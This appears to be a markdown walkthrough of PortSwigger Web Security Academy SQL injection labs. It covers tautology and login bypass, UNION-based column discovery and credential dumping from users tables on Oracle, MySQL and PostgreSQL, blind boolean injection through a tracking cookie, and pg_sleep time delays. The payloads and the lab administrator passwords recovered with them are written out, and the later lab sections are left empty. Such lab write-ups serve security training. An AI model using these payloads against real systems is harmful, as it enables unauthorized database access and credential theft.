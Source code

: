 # SQL Injection

 - [Retrieving hidden data](#retrieving-hidden-data)
 - [UNION attacks](#union-attacks)
 - [Blind SQL injection](#blind-sql-injection)

Details at [here](https://portswigger.net/web-security/sql-injection)

Type of SQL injection in example

- [Retrieving hidden data](#retrieving-hidden-data)
- [UNION attacks](#union-attacks)
- [Blind SQL injection](#blind-sql-injection)

---

## Retrieving hidden data

Modify an SQL query to return additional results

[Lab 1](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

Description of this lab: the query of 1 category `Gifts`

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

And sample URL query: `https://example.com/filter?category=Gifts`

Goal: display details of all products in any category, both *released and unreleased*

`SELECT * FROM products WHERE category = '' or '1'='1' AND released = 1`

We just only adjust in `category=` and put into `''`, so the final payload:
`' or '1'='1` or `https://example.com/filter?category=%27%20or%20%271%27or%271` 

[Lab 2](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

Description of this lab: inject in login page as username: administrator

So we need to modify the password, and check the password with the previous payload: `' or '1'='1`, and it worked

## UNION attacks

Detail found at [here](https://portswigger.net/web-security/sql-injection/union-attacks)

See cheatsheet [here](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[Lab 3](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Description of this lab: vulnerability in the product category filter, use a UNION attack to retrieve data from other tables

Firstly, we need to identify the number of columns in the table, and use payload: `' ORDER BY <number-of-column> --` to check, after we use `' ORDER BY 4 --`, we got the error `Internal Server Error` so the column is 3.

Finally, we use `' UNION SELECT NULL, NULL, NULL--` to make a union attack at `/filter?category=` then solved this challenge.

[Lab 4](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

Description of this lab: You can do this using a technique you learned in a previous lab. The next step is to identify a column that is compatible with string data. After that, alter NULL to random text on the homepage, for example: 'qG26iL'

Do as same as the previous one with `' UNION SELECT NULL, NULL, NULL--`. After trying, the final payload is `' UNION SELECT NULL, 'qG26iL', NULL--`

[Lab 5](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

Description of this lab: The database contains a different table called users, with columns called username and password

In this lab, there are 2 columns in this table

Do the same as the previous one with `' UNION SELECT NULL, NULL--`. Follow the description, and change NULL to username and password. Moreover, we need access to a table named `users`, so the payload is: `' UNION SELECT username, password FROM users--`, then we got all username and password.

Login with the password of user `administrator`: nq3glruptcrilo0yscf6 and solved the lab.  

[Lab 6](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

This lab has the same description as the previous one but we need to retrieve multiple values in a single column. Furthermore, in this lab, we can use only the second column.

Look at the cheatsheet, we can use the string concatenation technique. After trying, we found this lab use `||` for concatenate string. The final payload is `' UNION SELECT NULL, username||':'||password FROM users--` to get all usernames and passwords.

Login with the password of user `administrator`: 532codf0er823llefy7x and solved the lab. 

[Lab 7](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

Description of this lab: display the database version string of Oracle

In this lab, the available number of columns is 2. Look at the cheatsheet, try with: `SELECT banner FROM v$version` and the final payload is: `' UNION SELECT banner, NULL FROM v$version--`, then solved the lab.

[Lab 8](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

This lab has the same description as the previous one, but for MySQL and Microsoft.

The final payload is `' UNION SELECT @@version, NULL#`, we will change `v$version` to `@@version`, `--` to `#`, then solved the lab.


[Lab 9](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

Description of this lab: You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

This lab has 2 available cloumns, we need to determine the name of table first. However, determine the version of database. After trying, `' UNION SELECT version(), NULL--` worked and result is `PostgreSQL 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit`

Check the cheatsheet, found database contents with PostgreSQL using `' UNION SELECT table_name, NULL FROM information_schema.tables--`. So there are a lot of tables, find the column of table `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_ahngdj'--`, the result is colunms names: username_ivoiag and password_vxgmam

The final payload is `' UNION SELECT username_ivoiag, password_vxgmam FROM users_ahngdj--`, the password of administrator is l9jw2he0g1jr5zzndr3o. Login with this password, then solved the lab.

[Lab 10](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

This lab has the same description as the previous one, but for oracle.

Get all table name in database with `' UNION SELECT table_name, NULL FROM all_tables--`, and the name of table which we need to access is USERS_NOFLTA then use `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_NOFLTA'--` to get name of password and username column: PASSWORD_EVVZCC & USERNAME_ETTQUM.

The final payload is: `' UNION SELECT USERNAME_ETTQUM, PASSWORD_EVVZCC FROM USERS_NOFLTA--` and get password of administrator is qhwrw9aos6k2p2uodezp, login and solved the lab.

## Blind SQL injection 

[Lab 11](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

Description of this lab: The results of the SQL query are not returned, and no error messages are displayed. But the application includes a **Welcome back** message in the page if the query returns any rows. The application uses a tracking **cookie** for analytics, and performs an SQL query containing the value of the submitted cookie.   

The database contains a different table called **users**, with columns called **username and password**, find out the password of the administrator user.

So we need to modify cookie, when we use burp suite, and open page, we will get cookie like this: `Cookie: TrackingId=78FpD4ERhK86IMIp; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`. 

If we modify session, the website will be loss data of this session, so we will modify TrackingID `Cookie: TrackingId=78FpD4ERhK86IMIp+'+or+1=1--; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`, and return page including 'Welcome back', so it is right direction. Only thing we can do is making condition. At the first, determine the length of password `Cookie: TrackingId=78FpD4ERhK86IMIp+'or+(SELECT+LENGTH(password)+FROM+users+WHERE+username='administrator')=20--; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`

Note: using burp intruder for brute force value in condition 

Next, using brute force to guess 20-length password character by character with turbo intruder  

Guess first character
`Cookie: TrackingId=78FpD4ERhK86IMIp+'or+(SELECT+SUBSTRING(password,1,1)+FROM+users+WHERE+username='administrator')='%s'--; session=cjruWYG4ZqnnopctvKK3e3DJS2nN8eM2`

Using this [script](/Scripts/brutecondition.py) to guess, then write answer for per attack. After 20 trial, we will get password is `s4ykqo9mvgpqisgnzv9t`. Log in with this password and solved the lab.

[Lab 12](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)



[Lab 13](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

Description of this lab: exploit the SQL injection vulnerability to cause a 10 seconds delay.

Using payload similar `Cookie: TrackingId=nTjOlcnGoesLH7fd+'or+pg_sleep(10)--; session=8BYemkFDFxWMOkX21X7uPWmJ0P1fAYRl` to sleep in 10 second, then solved the lab.

[Lab 14](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)







